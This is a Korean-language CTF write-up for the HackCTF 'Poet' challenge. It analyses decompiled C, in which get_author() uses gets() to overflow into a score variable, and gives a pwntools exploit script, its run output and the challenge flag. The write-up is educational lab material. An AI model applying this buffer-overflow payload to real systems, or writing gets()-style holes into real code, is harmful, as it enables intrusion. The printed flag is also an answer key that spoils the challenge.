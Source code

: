#Poet

---

`main()`은 다음과 같다.

<pre>
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts(s);
  while ( 1 )
  {
    get_poem();
    get_author();
    rate_poem();
    if ( dword_6024E0 == 1000000 )
      break;
    puts(asc_400D78);
  }
  reward();
}
</pre>

전체적인 흐름은 시와 작가를 입력받고 `rate_poem()`에서 시의 점수를 매겨서 그 점수가 1000000점이 되면 while문을 깨고 나와 `reward()`에서 flag를 알려준다.

`rate_poem()`은 다음과 같다.

<pre>
int rate_poem()
{
  char dest; // [rsp+0h] [rbp-410h]
  char *s1; // [rsp+408h] [rbp-8h]

  strcpy(&dest, poem);
  for ( s1 = strtok(&dest, " \n"); s1; s1 = strtok(0LL, " \n") )
  {
    if ( !strcmp(s1, "ESPR")
      || !strcmp(s1, "eat")
      || !strcmp(s1, "sleep")
      || !strcmp(s1, "pwn")
      || !strcmp(s1, "repeat")
      || !strcmp(s1, "CTF")
      || !strcmp(s1, "capture")
      || !strcmp(s1, "flag") )
    {
      dword_6024E0 += 100;
    }
  }
  return printf(asc_400BC0, poem, (unsigned int)dword_6024E0);
}
</pre>

입력받은 poem을 strtok를 통해서 띄어쓰기 단위로 쪼개면서 ESPR, eat, sleep, pwn, repeat, CTF, capture, flag라는 단어가 있을 때마다 0x6024e0에 100점씩 더해진다.

시를 입력받는 함수인 `get_poem()`을 살펴보자.

<pre>
__int64 get_poem()
{
  __int64 result; // rax

  printf("Enter :\n> ");
  result = gets(poem);
  dword_6024E0 = 0;
  return result;
}
</pre>

poem이라는 변수에 시를 입력받는다. 이때 poem의 위치는 0x6020a0이며 크기는 1024bytes이다. gets함수를 이용하였기에 bufferoverflow가 일어나서 eat과 같은 단어를 10000개 붙여서 문제를 풀 수 도 있겠지만 이렇게 하면 문자열의 길이가 너무 늘어나서 오류가 생기게 된다. 또한 새로 시를 입력받을 때마다 0x6024e0에 위치한 point를 초기화시켜주기 때문에 점수를 누적할 수도 없다.

그렇다면 author를 입력받을 때 bufferoverflow가 일어나는지 확인해보자.

다음은 `get_author()`함수이다.

<pre>
__int64 get_author()
{
  printf(&byte_400C38);
  return gets(&unk_6024A0);
}
</pre>

gets함수를 이용하였기 때문에 bufferoverflow가 일어난다. 그리고 해당 문자열은 0x6024a0에 저장된다. 저자의 이름을 입력받을 때 다음과 같은 payload를 통해서 0x6024e0에 위치한 point값을 덮어 쓸 수 있을 것이다.

**[dummy 64bytes]+[hex(1000000) 4bytes]**

이를 이용하여 다음과 같은 익스 코드로 flag를 얻을 수 있다.


<pre>
from pwn import*

p=remote('ctf.j0n9hyun.xyz', 3012)

p.recvuntil('> ')

p.sendline('123')

p.recvuntil('> ')

payload='A'*64
payload+='\x40\x42\x0f\x00'

p.sendline(payload)

p.interactive()
</pre>

---

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/12.Poet$ python ex2.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3012: Done
[*] Switching to interactive mode

+---------------------------------------------------------------------------+
시 내용
123
점수:1000000

축하합니다!

시 내용
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

2018년 시인 상을 받았습니다!!

보상:
HackCTF{0neSTEP_jun10rCTF}

+---------------------------------------------------------------------------+

[*] Got EOF while reading in interactive

</pre>

**flag: HackCTF{0neSTEP_jun10rCTF}**



